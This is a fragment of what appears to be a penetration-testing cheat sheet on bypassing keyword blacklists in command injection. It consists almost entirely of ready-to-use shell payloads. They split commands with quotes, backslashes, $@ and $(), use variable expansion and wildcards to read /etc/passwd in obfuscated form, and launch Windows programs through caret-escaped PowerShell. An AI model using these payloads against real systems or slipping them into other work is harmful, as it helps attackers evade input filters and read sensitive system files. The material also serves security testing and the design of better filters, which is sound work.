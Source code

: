 {% tab title="Blacklisted words" %}
We may bypass blacklisted words as follow :

#### Bypass with single quote

```bash
w'h'o'am'i
```

#### Bypass with double quote

```bash
w"h"o"am"i
```

#### Bypass with backslash and slash

```bash
w\ho\am\i
/\b\i\n/////s\h
```

#### Bypass with $@

`$0`: Refers to the name of the script if it's being run as a script. If you're in an interactive shell session, `$0` will typically give the name of the shell.

```bash
who$@ami
echo whoami|$0
```

#### Bypass with $()

```bash
who$()ami
who$(echo am)i
who`echo am`i
```

#### Bypass with variable expansion

```bash
/???/??t /???/p??s??

test=/ehhh/hmtc/pahhh/hmsswd
cat ${test//hhh\/hm/}
cat ${test//hh??hm/}
```

#### Bypass with wildcards

```bash
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```
{% endtab %}
{% endtabs %}
